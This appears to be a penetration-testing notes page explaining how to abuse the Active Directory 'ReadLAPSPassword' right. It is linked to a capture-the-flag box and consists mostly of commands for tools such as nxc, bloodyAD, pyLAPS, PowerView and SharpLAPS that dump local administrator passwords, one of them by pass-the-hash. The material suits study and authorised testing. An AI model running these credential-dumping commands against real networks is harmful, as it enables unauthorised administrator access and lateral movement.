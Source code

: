 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ReadLAPSPassword

## Information

LAPS is a [Windows feature](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview) that automatically manages and backs up the password of a local administrator account on Windows Server AD-joined devices

<figure><img src="../../../../.gitbook/assets/timelapse_laps_priv (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Linux

{% tabs %}
{% tab title="NXC" %}
```bash
# read the password of all computers
nxc ldap <ip> -u <user> -p <pass> -M laps
# read the password of a specific computer
nxc ldap <ip> -u <user> -p <pass> -M laps -o COMPUTER='DC01$'
```
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -u <user> -d <domain> -p <pass> --host <ip> get object 'COMPUTER$' --attr ms-Mcs-AdmPwd
```
{% endcode %}
{% endtab %}

{% tab title="LAPSDumper" %}
```bash
# basic usage
python laps.py -u <user> -p <pass> -d <domain>
# PtH on specific LDAP server
python laps.py -u <user> -p <hash> -d <domain> -l <fqdn>
```
{% endtab %}

{% tab title="pyLAPS" %}
{% code overflow="wrap" %}
```bash
# read the password of all computers
pyLAPS.py --action get -u <user> -d <domain> -p <pass> --dc-ip <ip>
# read the password of a specific computer
pyLAPS.py --action get --computer 'DC01$' -u <user> -d <domain> -p <pass> --dc-ip <ip>
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of reading the LAPS password with NXC check [Timelapse](../../../../boxes/boxes/easy/timelapse.md#laps).

### Windows

{% tabs %}
{% tab title="AD PS" %}
{% code overflow="wrap" %}
```powershell
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Get-DomainComputer "DC01" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}

{% tab title="SharpLAPS" %}
```powershell
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="LAPSDumper" %}
{% embed url="https://github.com/n00py/LAPSDumper" %}
{% endtab %}

{% tab title="pyLAPS" %}
{% embed url="https://github.com/p0dalirius/pyLAPS" %}
{% endtab %}

{% tab title="SharpLAPS" %}
{% embed url="https://github.com/swisskyrepo/SharpLAPS" %}
{% endtab %}
{% endtabs %}
